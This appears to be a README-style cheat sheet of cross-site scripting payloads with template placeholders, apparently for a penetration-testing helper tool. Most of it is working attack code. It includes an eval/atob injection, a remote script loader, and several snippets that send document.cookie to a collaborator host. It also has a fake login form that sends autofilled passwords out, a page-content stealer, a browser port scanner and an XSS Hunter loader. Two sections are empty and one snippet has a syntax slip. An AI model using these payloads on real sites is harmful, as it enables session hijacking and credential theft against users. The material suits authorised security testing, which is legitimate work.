

## Examples

### Injections

```html
"><input onfocus=eval(atob(this.id)) id={{ xss-payload alert(1) } b64 } autofocus>
```

### Exploitation

#### Execute once only

Useful when the payload is reflected on multiple fields. Mainly to avoid popping 3000 alerts when testing.

```js
if (window.{{ js-exec-flag _trickz }} === undefined){{{ js-exec-once alert(1) }};window.{{ js-exec-flag _trickz }} = 1}
```

#### Load Script file

```js
var a=document.createElement("script");a.src="{{ js-payload-url http://localhost:8000/xss.js }}";document.body.appendChild(a);
```

#### Steal cookies

```js
fetch('https://{{ collaborator your.burpcollaborator.net }}', {method: 'POST', mode: 'no-cors', body:document.cookie})
```

```js
var xhttp = new XMLHttpRequest(); xhttp.open("GET", "https://{{ collaborator your.burpcollaborator.net }}/?c=" + document.cookie, true);xhttp.send();
```

```js
navigator.sendBeacon('https://{{ collaborator your.burpcollaborator.net }}/',document.cookie)
```

Very simple, yet effective:
```html

```

#### Capture password auto-fill

```html
<b>Username:</b><br>
<input name=username id=username>
<b>Password:</b><br>
<input type=password name=password onchange="if(this.value.length)fetch'https://{{ collaborator your.burpcollaborator.net }}',{method:'POST', mode: 'no-cors', body:username.value+':'+this.value});">
```

#### Steal Page Content

```js
var url = "{{ target-url http://localhost:8000/info/me }}";
var attacker = "https://{{ collaborator your.burpcollaborator.net }}";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', url, true);
xhr.send(null);
```

#### Port Scanning

```js
const checkPort = (port) => { fetch(http://localhost:${port}, { mode: "no-cors" }).then(() => { let img = document.createElement("img"); img.src = https://{{ collaborator your.burpcollaborator.net }}/ping?port=${port}; }); } for(let i=0; i<1000; i++) { checkPort(i); }
```

## Blind XSS

### XSS Hunter

#### Custom XSS Hunter payloads

```js
var a=document.createElement("script");a.src="https://{{ xss-hunter-username your-username }}.xss.ht";document.body.appendChild(a);
```

## Bypass WAF



## Angular.js
